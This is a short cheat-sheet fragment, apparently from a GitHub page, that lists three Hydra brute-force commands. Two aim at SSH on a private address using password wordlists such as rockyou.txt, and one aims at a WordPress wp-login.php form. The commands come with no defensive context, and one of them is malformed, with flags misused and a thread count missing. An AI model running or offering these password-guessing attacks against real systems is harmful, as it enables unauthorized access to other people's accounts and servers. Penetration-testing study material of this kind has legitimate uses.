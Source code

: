 Hydra

- hydra -l user -P pass.txt -t 10 172.21.0.0 ssh -s 22

- hydra -l users.txt -p /usr/share/wordlists/rockyou.txt -t 172.21.0.0 ssh -s 22

- hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'